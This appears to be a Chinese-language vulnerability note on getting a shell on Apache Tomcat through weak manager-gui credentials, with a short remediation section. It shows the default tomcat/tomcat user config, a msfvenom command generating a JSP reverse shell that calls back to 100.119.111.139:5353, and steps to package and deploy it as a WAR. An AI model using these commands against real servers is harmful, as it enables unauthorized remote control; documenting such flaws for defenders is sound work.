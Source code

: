 ### 0x00简述

漏洞名称：Tomcat 后台管理弱口令GETSHELL

漏洞影响：上传包含任意代码的文件，并被服务器执行。

影响平台：ALL

影响版本：ALL

### 0x01利用

漏洞利用的前提就是当前环境有弱口令且账号权限是 `manager-gui`，对应配置文件为：`conf/tomcat-users.xml`中：

```
<role rolename="manager-gui"/>
<user username="tomcat" password="tomcat" roles="manager-gui"/>
```

然后就可访问`/manager/html` 进入后台管理界面部署WAR文件：

![1583230134224](G:\workDocs\我的文档\小书匠\漏洞整理\vulnCollection\Tomcat\images\1583230134224.png)

接下来我们就需要自己手动打包一个WAR包，首先使用msfvenom生成jsp文件：

```jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=100.119.111.139 LPORT=5353 R > cmd.jsp
```

使用命令将当前文件夹打包：

```
jar -cvfM0 hello.war ./
```

运行之后会在当前目录生产一个 `hello.war` :

![1583231125933](G:\workDocs\我的文档\小书匠\漏洞整理\vulnCollection\Tomcat\images\1583231125933.png)

上传并部署之后会提示一个消息 `OK` ：

![1583230507964](G:\workDocs\我的文档\小书匠\漏洞整理\vulnCollection\Tomcat\images\1583230507964.png)

然后我们点击hello并访问刚才上传的jsp文件，虽然页面是一片空白，但是这个时候已经获取到了服务器的CMD权限：

![1583231264685](G:\workDocs\我的文档\小书匠\漏洞整理\vulnCollection\Tomcat\images\1583231264685.png)

可以看到这个漏洞的杀伤力之大，但是在tomcat本身看来这个只是为了方便部署而设计的一个功能，所以只要是存在弱密码的情况，那么基本每个版本都可以拿到最后的权限。

### 0x02 修复

- 强密码
- 不要开manage的任何账户权限

### 0x03 参考链接

 https://www.freebuf.com/articles/web/36455.html 